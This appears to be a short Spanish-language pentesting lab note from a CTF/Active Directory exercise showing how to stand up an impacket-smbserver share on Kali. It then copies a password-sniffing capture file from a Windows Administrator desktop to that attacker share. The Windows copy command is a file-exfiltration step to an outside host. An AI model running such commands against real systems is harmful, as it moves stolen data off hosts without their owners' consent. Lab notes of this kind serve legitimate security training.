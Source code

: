 # Tools Share Files
## SMB-Folder

Impacket-smbserver es una herramienta de la suite Impacket, una colección de herramientas de seguridad diseñadas para interactuar con el protocolo SMB (Server Message Block). SMB es un protocolo de red utilizado para compartir archivos y recursos en una red de computadoras.

```java
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/AD]
└─# impacket-smbserver smbfolder $(pwd) -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Incoming connection (192.168.200.155,61302)
[*] AUTHENTICATE_MESSAGE (LABSTIZONAL\DC-TIZONAL$,DC-TIZONAL)
[*] User DC-TIZONAL\DC-TIZONAL$ authenticated successfully
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Para copiar un recurso desde windows utilizamos el comando copy
```java
C:\Users\Administrator\Desktop>copy PasswordSniffing.pcapng \\192.168.200.147\smbFolder
        1 file(s) copied.

C:\Users\Administrator\Desktop>
```